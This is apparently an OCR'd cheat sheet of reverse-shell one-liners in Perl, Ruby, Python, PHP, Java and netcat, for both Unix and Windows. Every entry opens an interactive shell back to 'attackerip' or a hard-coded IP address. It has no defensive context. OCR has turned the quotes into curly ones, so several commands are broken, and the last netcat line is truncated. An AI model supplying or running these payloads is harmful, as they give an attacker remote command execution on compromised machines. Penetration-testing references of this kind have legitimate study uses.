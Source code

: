 #### PERL rebound Shell

    perl -MIO -e ‘$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”attackerip:443″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’

#### Win platform

    perl -MIO -e ‘$c=new IO::Socket::INET(PeerAddr,”attackerip:4444″);STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’
    perl -e ‘use Socket;$i=”10.0.0.1″;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’

#### RUBY rebound Shell

    ruby -rsocket -e ‘exit if fork;c=TCPSocket.new(“attackerip”,”443″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’

#### Win platform

    ruby -rsocket -e ‘c=TCPSocket.new(“attackerip”,”443″);while(cmd=c.gets);IO.popen(cmd,”r”){|io|c.print io.read}end’
    ruby -rsocket -e ‘f=TCPSocket.open(“attackerip”,”443″).to_i;exec sprintf(“/bin/sh -i <&%d >&%d 2>&%d”,f,f,f)’

#### PYTHON rebound Shell

    python -c ‘import                                                 socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“attackerip”,443));os.dup2(s.fileno(),0);                 os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’

#### PHP bounce Shell

    php -r ‘$sock=fsockopen(“attackerip”,443);exec(“/bin/sh -i <&3 >&3 2>&3”);’

#### JAVA rebound Shell

    r = Runtime.getRuntime()
    p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/attackerip/443;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
    p.waitFor()

#### NETCAT rebound Shell

    nc -e /bin/sh attackerip 4444
    nc -e /bin/sh 192.168.37.10 443

#### If the -e parameter is disabled, you can try the following command

    # mknod backpipe p && nc attackerip 443 0<backpipe | /bin/bash 1>backpipe
    /bin/sh | nc attackerip 443
    rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4443 0/tmp/
